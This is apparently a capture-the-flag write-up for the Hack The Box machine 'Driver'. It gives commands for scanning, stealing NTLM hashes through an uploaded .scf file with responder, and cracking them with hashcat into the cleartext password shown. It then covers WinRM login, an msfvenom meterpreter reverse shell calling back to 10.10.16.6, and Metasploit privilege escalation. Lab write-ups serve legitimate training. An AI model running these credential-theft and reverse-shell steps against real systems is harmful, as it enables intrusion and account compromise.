

# [Driver](https://app.hackthebox.com/machines/driver)

```bash
nmap -p- --min-rate 10000 10.10.11.106 -Pn
```


Let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p80,135,445,5985 10.10.11.106
```




While enumeration of web application, I see that I can upload file into webserver.

One thing comes to my mind, I can upload file and get NTLM hash of user which runs webserver.


That's why I choose `.scf` extension file which I create this by using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)


```bash
python3 ntlm_theft.py  -g all -s 10.10.16.6 -f dr4ks
```


Let's get NetNTLM hash of user.

1.First, we need to run `responder`.
```bash
responder -I tun0
```


2.Now, we need to upload `.scf` file into this section.


Let's grab this and crack via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```


Our grabbed credentials like below.

tony: liltony


Let's try to connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

user.txt


Now, I will use `msfconsole` to make privilege escalation.

1.For that, I create **malicious** `.exe` file via `msfvenom` command.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=1337 -f exe -o dr4ks.exe
```


2.Then let's upload and got reverse shell from `msfconsole`.


Let's use `post/multi/recon/local_exploit_suggester`.


I select this privilege escalation technique called **'exploit/windows/local/ricoh_driver_privesc'**

```bash
set payload windows/x64/meterpreter/reverse_tcp
migrate -N explorer.exe  #get out from dr4ks.exe (reverse shell)

run or exploit
```


root.txt

